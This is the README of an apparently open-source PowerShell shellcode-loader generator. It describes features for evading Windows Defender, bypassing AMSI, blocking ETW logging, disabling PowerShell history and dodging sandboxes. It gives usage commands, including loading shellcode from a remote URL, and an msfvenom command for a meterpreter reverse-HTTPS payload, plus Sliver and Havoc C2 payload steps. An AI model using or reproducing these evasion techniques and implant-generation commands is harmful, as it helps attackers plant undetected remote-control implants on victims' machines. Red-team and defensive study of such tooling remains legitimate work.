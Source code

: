 ### Invoke-PoSH-ShellCodeLoader.ps1
--------------------------------------
'Invoke-PoSH-ShellCodeLoader' is a shellcode loader script generator that aims to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted shellcode loader PowerShell script that will inject the shellcode into the current process's virtual address space.  

#### FEATURES
  - Shellcode injection into the memory of the current process (PowerShell)
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  - Compatible with shellcodes from multiple C2 frameworks (Metasploit, Silver and Havoc)

#### USAGE
1. Examples with a shellcode file stored locally
```
  - Import-Module ./Invoke-PoSH-ShellCodeLoader.ps1
  - Invoke-PoSH-ShellCodeLoader -Type MSF -FilePath C:\path\shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1
    --- or ---
  - Invoke-PoSH-ShellCodeLoader -Type Sliver -FilePath C:\path\shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1
    --- or ---
  - Invoke-PoSH-ShellCodeLoader -Type Havoc -FilePath C:\path\shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1
```

2. Examples with a shellcode file stored on a remote web server
```
  - Import-Module ./Invoke-PoSH-ShellCodeLoader.ps1
  - Invoke-PoSH-ShellCodeLoader -Type MSF -FileUrl https://URL/shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1 
    --- or ---
  - Invoke-PoSH-ShellCodeLoader -Type Sliver -FileUrl https://URL/shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1 
    --- or ---
  - Invoke-PoSH-ShellCodeLoader -Type Havoc -FileUrl https://URL/shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1 
```
3. Examples with the optional parameter '-Sandbox'
```
  - Invoke-PoSH-ShellCodeLoader -Type MSF -FilePath C:\path\shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1 -Sandbox
  - Invoke-PoSH-ShellCodeLoader -Type Sliver -FileUrl https://URL/shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1  -Sandbox
```

#### INPUT (Shellcode formats)  
- Metasploit C2 Framework  
  ```msfvenom -p windows/x64/meterpreter_reverse_https EXITFUNC=thread HandlerSSLCert=/path/cert.pem LHOST=IP LPORT=port -a x64 -f raw -o shellcode```  
  
- Sliver C2 Framework  
  ```[server] sliver > generate --arch amd64 -f shellcode --http IP -l --os Windows --save shellcode```  
  ```@Kali:/$ xxd -p shellcode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > shellcode2```  
  ```@Kali:/$ sed '$ s/.$//' shellcode2 > shellcode3```  
  
- Havoc C2 Framework  
    1. Generate a new HAVOC payload with the format "Windows Shellcode" (Arch: x64 / Indirect Syscall: Enabled / Sleep Technique: WaitForSIngleObjectEx)  
    2. To convert the Havoc shellcode to the appropriate format you need to run these commands:  
       ```@Kali:/$ xxd -p shellcode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > shellcode2```  
       ```@Kali:/$ sed '$ s/.$//' shellcode2 > shellcode3```  

#### LICENSE
  - GNU General Public License v3.0
